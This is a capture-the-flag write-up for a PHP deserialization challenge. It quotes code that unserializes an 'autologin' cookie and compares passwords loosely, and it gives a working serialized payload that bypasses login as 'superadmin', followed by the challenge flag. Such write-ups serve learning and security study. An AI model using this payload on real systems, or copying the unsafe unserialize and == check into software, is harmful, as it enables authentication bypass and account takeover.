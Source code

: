 ```yaml
---
layout: default
title: PHP-Serialization
---
```


The vulnerable part is here:
```php
// autologin cookie ?
else if($_COOKIE['autologin']){
    $data = unserialize($_COOKIE['autologin'])
```

We can bypass this check because it uses `==`, which gives us loose comparison.
```php
// check password !
if ($data['password'] == $auth[ $data['login'] ] ) {
    $_SESSION['login'] = $data['login'];
```
As we can see from the table, `"php"` equals to `TRUE`, so that's how we'll bypass the password, by supplying this: `s:8:"password";b:1;`

![loose comparison table](./images/PHP-type-juggling_table.png)

Then, the code checks `$_SESSION['login']`, which was set earlier with `$data['login']`, so we can give it `superadmin` and that's it.
```php
// admin ?
if($_SESSION['login'] === "superadmin"){
    require_once('admin.inc.php');
}
```

So, the final payload will look like:
```
a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1;}
```

I'm using `Hackvertor` extension in burp suite for encoding easily.

![FINAL](./images/PHP-Serialization_FINAL.png)

**Flag:** **_`NoUserInputInPHPSerialization!`_**
